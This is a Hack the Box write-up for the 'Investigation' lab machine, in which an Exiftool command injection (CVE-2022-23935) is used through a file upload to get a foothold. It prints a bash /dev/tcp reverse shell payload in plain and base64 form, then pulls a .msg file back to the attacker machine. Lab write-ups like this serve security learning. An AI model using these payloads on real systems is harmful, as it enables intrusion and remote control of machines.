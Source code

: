 # Hack the Box - Investigation

```CSS
Machine IP: 10.10.11.197 - Linux
```
- Home Page
![image](https://user-images.githubusercontent.com/83878909/229590867-b6247863-847c-4542-9262-8b49d68df091.png)
- Service Page (File Upload)
![image](https://user-images.githubusercontent.com/83878909/229591086-ae649d64-42c7-4d06-b226-766ab832b99b.png)
- Analysed Image Report
![image](https://user-images.githubusercontent.com/83878909/229594569-1b66a61c-ca06-46af-ab8a-74fc5013a9e5.png)

## Exiftool
- Version 12.97 is vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429).

## Exploit
  - Testing the exploit using ping. Ping the attacker machine and capture ICMP packets if the ping is received.
![image](https://user-images.githubusercontent.com/83878909/229599022-e4a6e61a-e57b-443f-867f-d6c083766361.png)
  - Ping received.
![image](https://user-images.githubusercontent.com/83878909/229599327-3589ec39-e31f-4c38-a8c5-20ebf6b5f5dc.png)

- Sending the payload in base64 format and decrypting it on the victim machine.
  - Payload: `/bin/bash -i >& /dev/tcp/10.10.14.34/9001 0>&1`=`echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM0LzkwMDEgMD4mMQ==' | base64 -d | bash |`
![image](https://user-images.githubusercontent.com/83878909/229601047-d8811696-5f5d-482a-a8bc-f421c49b9d36.png)
  - Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/229601230-9c508f23-7f61-4b3b-a0df-42521867ac4c.png)

---

- Found `.msg` file in `/usr/local/investigation`.
  - Transfer the file to attacker machine.
![image](https://user-images.githubusercontent.com/83878909/229604774-0211e995-a22b-4a49-ab70-77968c74c204.png)
  - Receive File - renamed to `analysis.msg`
![image](https://user-images.githubusercontent.com/83878909/229604983-c4243c4e-900b-452d-a88f-20bc83f39555.png)
  - Access the file using an online tool `https://products.aspose.app/`.
![image](https://user-images.githubusercontent.com/83878909/229606099-e31e6d5e-d398-4441-9163-6c8327539e46.png)
  - Download the `zip` file using an online tool `https://www.encryptomatic.com/viewer/`.
![image](https://user-images.githubusercontent.com/83878909/229606850-9d9590fa-ea22-4650-82e9-7ec1a48e82b0.png)
